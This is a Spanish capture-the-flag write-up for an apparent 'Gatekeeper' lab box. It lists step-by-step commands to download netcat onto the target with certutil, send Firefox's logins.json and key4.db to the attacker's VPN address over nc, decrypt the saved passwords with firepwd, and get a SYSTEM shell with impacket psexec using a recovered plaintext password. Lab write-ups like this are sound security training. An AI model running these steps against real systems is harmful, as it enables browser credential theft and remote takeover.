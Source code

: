  ```
![sendin evil](https://user-images.githubusercontent.com/107126653/172893623-b841acbb-dfd8-4a92-b970-1584c8309629.png)




*Si tienes problemas para conectarte con NC  prueba cierra la vpn y vuelve a ejecutarla.



Nos conectamos mediante una BINDSHELL 
![natbat](https://user-images.githubusercontent.com/107126653/172892019-9483f563-5444-40ea-b9c9-cce465fef434.png)





Usando los comandos dde windows podemos conseguir sin dificultad la primera flag siendo la user.txt.txt
![natbat flag](https://user-images.githubusercontent.com/107126653/172892126-79db0337-c281-4b41-8c6a-510ff31ce8cf.png)


ATENTO A ESTOS PASOS  , COPIA Y PEGALOS LINEA POR LINEA

Vamos a esta dirección```C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release```

Nos bajamos de github este repositorio  a nuestra kali linux ```git clone https://github.com/lclevy/firepwd.git```

                                                            ```wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip```
                                                           ```unzip netcat-win32-1.12.zip```
                                                            ```python3 -m http.server ```
                                                            ```certutil -urlcache -f "http://IP:8000/nc.exe" nc.exe ```
                                                            ```nc -nlvp 1234 > logins.json ```
                                                             ```nc.exe -nv IPVPN 1234 < logins.json ```
                                                             ``` nc -nlvp 1234 > key4.db```
                                                              ```nc.exe -nv IPVPN 1234 < key4.db ```
                                                              ```mv logins.json firepwd/ ```
                                                              ```mv key4.db firepwd/```
                                                              ```pip install -r requirements.txt```
 Cuando ejecutemos este comando  ```python3 firepwd.py``` debe salir:
 ![USER Y PASSPWORD](https://user-images.githubusercontent.com/107126653/172899014-f301f890-9363-4b55-b7e4-c030b04a0471.png)

   Ejecutamos  ```python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.29.138 cmd.exe```
   
   ![system32](https://user-images.githubusercontent.com/107126653/172903722-62caf4ec-b759-4238-8604-85b827b83558.png)
   

   Ahora !        ![users root](https://user-images.githubusercontent.com/107126653/173051846-d4e40bb9-4e46-48a3-aabb-2034e229ed3c.png)

    
                                                
 ```